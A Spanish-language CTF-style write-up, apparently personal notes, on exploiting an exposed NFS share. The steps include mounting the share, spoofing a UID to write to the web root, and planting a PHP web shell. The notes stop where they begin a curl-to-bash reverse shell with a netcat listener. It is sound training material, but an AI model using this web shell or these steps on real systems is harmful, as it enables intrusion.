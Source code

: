 Haremos los reconocimientos de nmap como siempre:
![[Mis apuntes/ANEXOS/Pasted image 20230218103500.png]]
Vemos que tiene el puerto 80, por lo que hacemos un whatweb para conocer cómo funciona dicha web:
![[Mis apuntes/ANEXOS/Pasted image 20230218103557.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230218104130.png]]
De todos modos en el escaneo de nmap vemos que tiene abierto el puerto 2049; y este puerto es importante auditarlo porque puede contener muchas vulnerabilidades:
![[Mis apuntes/ANEXOS/Pasted image 20230218104114.png]]
Por tanto podemos acudir a la web de hacktricks para ver cómo se hackea a través de este puerto; y ponerlo en el buscador:
![[Mis apuntes/ANEXOS/Pasted image 20230218104422.png]]
Y aquí nos explica como explotar vulnerabilidades del servicio NFS en el puerto 2049:
![[Mis apuntes/ANEXOS/Pasted image 20230218104513.png]]
Y ahora en esta parte nos explican como consultar los recursos compartidos del lado de la máquina víctima que nos permita a nosotros montar en nuestro equipo atacante; y eso lo comprobamos con este comando showmount -e:
![[Mis apuntes/ANEXOS/Pasted image 20230218104654.png]]
Lo probamos y nos encuentra dos recursos compartidos que nos lo podemos montar en nuestra máquina:
![[Mis apuntes/ANEXOS/Pasted image 20230218104739.png]]
Por tanto con el comando mount vamos a montarnos estas dos carpetas y trasladarlas a nuestro equipo, donde por ejemplo en este caso nos traemos el recurso compartido /home/ross a un directorio de nuestra máquina llamado ross:
![[Mis apuntes/ANEXOS/Pasted image 20230218105326.png]]
Y lo mismo con el otro recurso compartido:
![[Mis apuntes/ANEXOS/Pasted image 20230218105413.png]]
Y ahora tenemos clonado estos dos directorios de la máquina víctima en nuestra máquina. Por ejemplo vamos a ver el contenido de la carpeta ross:
![[Mis apuntes/ANEXOS/Pasted image 20230218105546.png]]
Y aquí dentro de la carpeta Documents nos encontramos con un fichero de keepas con extensión .kdbx:
![[Mis apuntes/ANEXOS/Pasted image 20230218105639.png]]
Pero si inspeccionamos el fichero html, vemos que no tenemos permisos para entrar, ya que la carpeta es del usuario 2017:
![[Mis apuntes/ANEXOS/Pasted image 20230218110920.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230218110934.png]]
Por tanto tenemos que cambiar el propietario de este directorio para poder entrar; y para eso vamos a crear un nuevo usuari con cualquier nombre; y después con el comando usermod podemos cambiar los atributos y decimos que el usuario 2017 ahora será el usuario que hemos creado antes, el usuario pepino; y ya tendremos permisos sobre el directorio html si somos el usuario pepino:
![[Mis apuntes/ANEXOS/Pasted image 20230218111433.png]]
Nos logueamos como el usuario que acabamos de crear:
![[Mis apuntes/ANEXOS/Pasted image 20230218111532.png]]
Tenemos que ejecutar una bash para poder ejecutar comandos:
![[Mis apuntes/ANEXOS/Pasted image 20230218111611.png]]
Y dentro nos encontramos con este directorio:
![[Mis apuntes/ANEXOS/Pasted image 20230218111733.png]]
Que si hacemos una prueba, vemos que está sincronizado con la web, ya que si creamos un fichero .txt, vemos que desde la web podemos acceder a él:
![[Mis apuntes/ANEXOS/Pasted image 20230218111930.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230218111939.png]]
Vemos que el directorio que está montado se encuentra vinculado con el mismo directorio de la máquina víctima, por lo que en este punto podemos cargar un fichero php malicioso para conseguir ejecución remota de comandos:[[0 - Consideraciones Previas#Código PHP malicioso para ganar Reverse Shell]]
```python
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Y ahora accedemos desde la web a este fichero php malicioso y obtenemos ejecución remota de comandos:
![[Mis apuntes/ANEXOS/Pasted image 20230218112301.png]]
Ahora que tenemos ejecución remota de comandos, nos montamos un servidor web con Python que aloje el código que nos enviará una reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230218113140.png]]
Lo montamos:
![[Mis apuntes/ANEXOS/Pasted image 20230218113157.png]]
Y ahora desde la máquina víctima hacemos un curl de este servidor web y lo pipeamos con bash; mientras nos ponemos en escucha con netcat:


